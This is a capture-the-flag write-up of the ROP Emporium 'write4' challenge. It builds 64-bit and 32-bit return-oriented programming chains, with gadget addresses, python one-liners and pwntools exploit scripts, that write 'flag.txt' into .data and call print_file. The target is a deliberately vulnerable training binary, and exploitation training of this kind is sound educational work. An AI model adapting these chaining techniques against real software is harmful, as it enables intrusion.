 # Write4

[write4]: https://ropemporium.com/challenge/write4.html

- There isn't, useful string like `/bin/cat flag.txt` in **split** challenge 
- function named `print_file()` exists within the challenge binary, it print the argument we pass to it -> "flag.txt".
- we will need a Gadget to write "flag.txt" in memory
- the thrash padding is the same as `ret2win` 

## 64 bit

We need to build our **ROP chain**, lets find all stuff we need:

First of all we need a place where to write our "flag.txt" string, so we will look for writable memory areas:

![write1.](./assets/write4-1.png)

Here it is, `.data` will work, and its address is `0x00601028`.

Let's now search for a `gadget` that let us write in there.

![write2.](./assets/write4-2.png)

gotcha `0x0000000000400628` -> `mov qword ptr [r14], r15; ret;`; but know we need to put `flag.txt` into `r15` register and `.data-address` into `r14`, so we search for another gadget.

![write3.](./assets/write4-3.png)

we have found `0x0000000000400690`: `pop r14; pop r15; ret;` 

lastly we need another gadget in order to pass `.data-address` (so our `flag.txt` string) as parameter to `print_file()` function, and we need of course it's address.

We already have found (in the previous img) `0x0000000000400693`: `pop rdi; ret;`.

![write4.](./assets/write4-4.png)

so the `print_file() ` address is `0x00400510`

Let's put our shits together remembering little endianess:

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop r14; pop r15; ret;`         | "\x90\x06\x40\x00\x00\x00\x00\x00" |
| `.data`                          | "\x28\x10\x60\x00\x00\x00\x00\x00" |
| flag.txt                         | "flag.txt"                         |
| `mov qword ptr [r14], r15; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdi; ret;`                  | "\x93\x06\x40\x00\x00\x00\x00\x00" |
| `.data `                         | "\x28\x10\x60\x00\x00\x00\x00\x00" |
| `print_file`                     | "\x10\x05\x40\x00\x00\x00\x00\x00" |

```bash
python -c 'print "\x55"*40 + "\x90\x06\x40\x00\x00\x00\x00\x00" + "\x28\x10\x60\x00\x00\x00\x00\x00" + "flag.txt" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x93\x06\x40\x00\x00\x00\x00\x00" + "\x28\x10\x60\x00\x00\x00\x00\x00" + "\x10\x05\x40\x00\x00\x00\x00\x00" ' |  ./write4
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF("write4")
io = process(elf.path)

payload = b'A'*40
payload += p64(0x00400690) # pop r14; pop r15; ret;
payload += p64(0x00601028) # .data address
payload += str.encode('flag.txt')
payload += p64(0x00400628) # mov qword ptr [r14], r15; ret;
payload += p64(0x00400693) # pop rdi; ret
payload += p64(0x00601028) # .data address
payload += p64(0x00400510) # print_file

io.sendline(payload)
print(io.recvall())
```

## 32 bit

The 32 bytes is pretty the same, but this time we must pay attention to the fact that "flag.txt" contains 8 bytes and our architecture is 32 bit (4 byte), so we need to write in `.data` section 2 time.

Find again all the shit in radare2

![write5.](./assets/write4-5.png)

so `.data` is at `0x0804a018`, remember that we want to write the string `flag` in there and the string `.txt` in the following 4 byte so the second address is `0x0804a01c`

![write6.](./assets/write4-6.png)

`print_file()` is at `0x080483d0`

![write7.](./assets/write4-7.png)

this time we have found `mov dword ptr [edi], ebp; ret;`  at `0x08048543`, so we need a gadget that will pop in this 2 register our `.data` address and the string we will move there

![write8.](./assets/write4-8.png)

here we have `pop edi; pop ebp; ret;` at `0x080485aa`

Let's put our shits together remembering little endianess and the fact that in 32bit we need the pass our parameter to the `print_file` function directly from the stack, putting between them `4 thrash bytes` that will be treated as the `print_file return address`. 

| ROP                                |                    |
| ---------------------------------- | ------------------ |
| thrash padding                     | "\x55" * 44        |
| `pop edi; pop ebp; ret;`           | "\xaa\x85\x04\x08" |
| `.data`                            | "\x18\xa0\x04\x08" |
| flag.txt (first 4 bytes)           | "flag"             |
| `mov dword ptr [edi], ebp; ret;`   | "\x43\x85\x04\x08" |
| `pop edi; pop ebp; ret;`           | "\xaa\x85\x04\x08" |
| `.data + 4 byte`                   | "\x1c\xa0\x04\x08" |
| flag.txt (last 4 bytes)            | ".txt"             |
| `mov dword ptr [edi], ebp; ret;`   | "\x43\x85\x04\x08" |
| `print_file`                       | "\xd0\x83\x04\x08" |
| fake return address for print_file | "\x55" * 4         |
| `.data`                            | "\x18\xa0\x04\x08" |

```bash
python -c 'print "\x55"*44 + "\xaa\x85\x04\x08" + "\x18\xa0\x04\x08" + "flag" + "\x43\x85\x04\x08" + "\xaa\x85\x04\x08" + "\x1c\xa0\x04\x08" + ".txt" + "\x43\x85\x04\x08" + "\xd0\x83\x04\x08" + "\x55"*4 + "\x18\xa0\x04\x08" ' |  ./write432
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF("write432")
io = process(elf.path)

payload = b'A'*44
payload += p32(0x080485aa) # pop edi; pop ebp; ret;
payload += p32(0x0804a018) # .data address
payload += str.encode('flag')
payload += p32(0x08048543) # mov dword ptr [edi], ebp; ret; 

payload += p32(0x080485aa) # pop edi; pop ebp; ret;
payload += p32(0x0804a01c) # .data address
payload += str.encode('.txt')
payload += p32(0x08048543) # mov dword ptr [edi], ebp; ret; 

payload += p32(0x080483d0) # print_file
payload += b'A'*4 # fake return address for print_file
payload += p32(0x0804a018) # .data address

io.sendline(payload)
print(io.recvall())
```
